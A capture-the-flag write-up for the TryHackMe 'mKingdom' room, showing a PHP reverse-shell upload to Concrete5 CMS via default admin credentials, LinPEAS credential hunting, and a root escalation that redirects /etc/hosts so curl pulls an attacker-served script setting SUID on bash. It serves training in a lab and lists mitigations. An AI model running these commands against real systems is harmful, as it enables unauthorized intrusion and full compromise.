 [mKingdom](https://tryhackme.com/room/mkingdom)

**Difficulty:** Easy 

**Objective:** Exploit Concrete5 CMS for remote shell access, escalate privileges via `/etc/hosts` manipulation and SUID bit on bash to retrieve both flags.

---

## Table of Contents  
- [1. Summary](#1-summary)  
- [2. Methodology](#2-methodology)  
- [3. Reconnaissance](#3-reconnaissance)  
- [4. Enumeration](#4-enumeration)  
- [5. Exploitation](#5-exploitation)  
- [6. Privilege Escalation](#6-privilege-escalation)  
- [7. Post Exploitation](#7-post-exploitation)  
- [8. Flags / Proof](#8-flags--proof)  
- [9. Mitigations](#9-mitigations)  
- [10. Notes](#10-notes)

---

## 1. Summary  
**IP/URL:** 10.10.190.204  
**Service/Ports:** 85/HTTP  
**Entry Point:** Authenticated RCE via Concrete5 CMS admin panel  
**Privilege Escalation:** Overwrote `/etc/hosts`, executed remote script to apply SUID on bash  
**Outcome:** Shell as root, both flags captured

---

## 2. Methodology  
Following the PTES (Penetration Testing Execution Standard):  
1. Reconnaissance  
2. Enumeration  
3. Exploitation  
4. Privilege Escalation  
5. Post-Exploitation  
6. Reporting

---

## 3. Reconnaissance  
Initial Nmap scan:  
nmap -sV -sS 10.10.190.204  
Results:  
85/tcp open http Apache httpd 2.4.7 ((Ubuntu))

Visited:  
http://10.10.190.204:85/ → nothing useful  
Ran Gobuster:  
gobuster dir -u http://10.10.190.204:85 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt  
Found `/app`, then redirected to `/app/castle/` via Jump link  
Discovered Concrete5 CMS (v8.5.2)

---

## 4. Enumeration  
Tested default credentials on login page:  
admin:admin → failed  
admin:password → success  
Confirmed admin access  
Researched vulnerabilities for Concrete5 8.5.2  
Enabled PHP in the file upload whitelist  
Uploaded php-reverse-shell from: https://github.com/pentestmonkey/php-reverse-shell  
Started listener: nc -lvnp 1337  
Spawned shell:  
python -c 'import pty;pty.spawn("/bin/bash")'

---

## 5. Exploitation  
Initial recon commands were unhelpful:  
sudo -l  
find / -perm -4000  

Uploaded and ran `linpeas.sh`  
Discovered a plaintext password for user `toad`  
Switched user: su toad → successful  

Ran LinPEAS again  
Found a base64-encoded string — decoded to get password for user `mario`  
Switched to `mario`  
Used `head` to retrieve first flag  
Enumerated permissions and discovered `mario` could write to `/etc/hosts`

---

## 6. Privilege Escalation  
Couldn’t edit `/etc/hosts` using `vim` or `nano`  
Used this command to overwrite `/etc/hosts` entry for mkingdom.thm:  
cat /etc/hosts | sed 's/127\.0\.1\.1\tmkingdom\.thm/IP.IP.IP.IP\t\tmkingdom.thm/g' > /tmp/hosts  
Copied modified file to `/etc/hosts`  
Created `/app/castle/application/counter.sh` on attacker’s HTTP server:  
#!/bin/bash  
chmod u+s /bin/bash  

Used curl on target to pull the script:  
curl mkingdom.thm:85/app/castle/application/counter.sh  
Executed: /bin/bash -p  
Gained root shell

---

## 7. Post Exploitation  
Ran: head /root/root.txt  

Captured final flag

---

## 8. Flags / Proof  
User Flag: Retrieved using `head` as user `mario`

Root Flag: Retrieved from `/root/root.txt` after applying SUID and spawning privileged shell

---

## 9. Mitigations  
| Vulnerability                    | Risk   | Suggested Mitigation                                |  
|----------------------------------|--------|-----------------------------------------------------|  
| Default CMS credentials          | High   | Enforce strong credential policies                  |  
| File upload with PHP execution  | High   | Restrict executable uploads, whitelist extensions   |  
| `/etc/hosts` write permissions  | High   | Restrict write access to system config files        |  
| SUID on bash                    | Critical | Audit script delivery vectors and remove unnecessary SUID bits |

---

## 10. Notes  
Time spent: ~3 hours  

Tools used: nmap, gobuster, linpeas.sh, curl, nc, Python, sed  

Lessons learned: File upload + CMS vulnerabilities can lead to full compromise. Watch for writable system files, creative privilege escalations via curl and hosts manipulation can be game-changers.

